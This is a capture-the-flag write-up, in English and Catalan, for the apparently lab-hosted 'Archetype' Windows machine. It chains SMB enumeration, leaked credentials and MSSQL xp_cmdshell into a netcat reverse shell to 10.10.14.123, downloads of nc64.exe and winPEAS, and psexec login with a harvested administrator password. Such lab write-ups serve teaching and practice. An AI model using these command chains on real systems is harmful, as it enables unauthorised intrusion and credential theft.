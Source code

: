 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. Try to execute reverse shell


# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami";
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.
Download [Link](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

> Simple HTTP server
```bash
$ sudo python3 -m http.server 80
```

> Netcat Listener
```bash
$ sudo nc -lvnp 443
```
[netcat]: Read and Write data in the network.
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

Check the actual server directory. If the user doesn't have permission, change it.

> Current Server Directory
```sql
SQL> xp_cmdshell "powershell -c pwd";
```

In the current directory sql_svc does not have permission to execute things. 

> Change to user directory and execute Reverse shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IP/nc64.exe -outfile nc64.exe"
```

Verify if  the simple Python HTTP server recibed the request

Now bind the `cmd.exe`



---

Podrem observar que el python que tenim escoltant al port 80 ha rebut una petició de GET.

> Solicitar cmd com a reverse shell al Local
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.123 443"
```

El netcat ja haurà rebut la petició de la reverse shell al port 443

![[Pasted image 20220528174933.png]]


Busquem la flag en el sistema i amb un `more` llegim el contingut

---

# Privilegie Escalation
Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










